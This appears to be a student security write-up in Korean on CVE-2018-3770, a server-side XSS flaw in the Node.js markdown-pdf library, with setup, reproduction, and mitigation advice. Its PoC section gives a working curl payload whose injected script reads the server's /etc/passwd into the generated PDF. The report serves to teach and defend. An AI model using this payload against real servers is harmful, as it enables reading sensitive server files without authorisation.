




# Node.js markdown-pdf 라이브러리 취약점(CVE-2018-3770) 보고서

	작성자: WHS 4기 4반 김민석
	
## 취약점 요약

`CVE-2018-3770`는 markdown 파일을 PDF로 변환해주는 Node.js의 라이브러리 `markdonw-pdf`의 9.0.0 미만의 버전에서 발생하는 취약점이다. `markdown-pdf` 라이브러리가 markdown 파일을 PDF로 변환할 때 `PhantomJS` 브라우저로 markdown 파일을 띄우고 이를 PDF로 렌더링한다. 이때 라이브러리가 markdown 파일의 악의적인 HTML 태그를 필터링하지 못해 서버의 `PhantomJS` 브라우저에서 Server Side XSS가 발생한다.

`markdown-pdf`는 9.0.0 버전에서 `remarkable: { html: true }` 설정을 기본값에서 지우는 조치를 취했지만 기본값에서 삭제하는 조취만 취했을 뿐, markdown의 HTML 태그를 활용하기 위해 `remarkable: { html: true }` 설정을 하면 악의적인 script 태그를 필터링하는 기능은 현재까지도 추가하지 않았다. 따라서 `markdown-pdf`모든 버전에 대해 `CVE-2023-0835`가 추가로 발급되어 있다.

## 환경 구성 및 취약 조건

1. 9.0.0 버전 미만인 8.1.1 버전 `markdown-pdf` 라이브러리를 사용해서 유저의 입력으로 markdown 파일을 받아 해당 markdown 파일을 PDF로 변환해주는 웹 서비스가 존재해야 한다.
2. 서버로 취약한 요청을 보내기 위한 `curl`과 서버가 제공해준 PDF를 읽기 위한 `pdftotext`가 공격자 시스템에 설치되어 있어야 한다.

## 재현 절차

유저의 markdown을 입력으로 받아 PDF로 변환해주는 Express 프레임워크 기반의 간단한 웹 서비스 제작.







## PoC 코드

```shell
$ curl -s -X POST http://localhost:3000/convert \
  --data-urlencode 'markdown=<script>
xhr=new XMLHttpRequest();
xhr.open("GET","file:///etc/passwd",false);
xhr.send();
document.write(xhr.responseText);
</script>' \
  --output users.pdf
  
$ pdftotext users.pdf - | grep root
```

## 실행 결과



서버에서 Server Side XXS가 발생해 서버가 자신의 `/etc/passwd` 파일을 읽고 그 내용을 유저에게 PDF로 전달해준 것을 `pdftotext` 명령어를 통해 확인할 수 있다.

## 대응 방안

`markdown-pdf` 라이브러리는 CVE가 등록되었지만 4년 전을 마지막으로 업데이트가 되고 있지 않다. 따라서 9.0.0 미만의 버전을 사용한다면 옵션에 `remarkable: { html: false }` 옵션을 명시하고, 9.0.0 이상의 버전을 사용한다면 `remarkable: { html: true }` 옵션을 넣지 않도록 주의해야 한다.

또한, 만약에 markdown의 HTML 태그를 parsing하는 기능을 반드시 사용해야 한다면 개발자가 별도로 유저의 악의적인 HTML 태그를 검열하는 로직을 구현해야 한다.
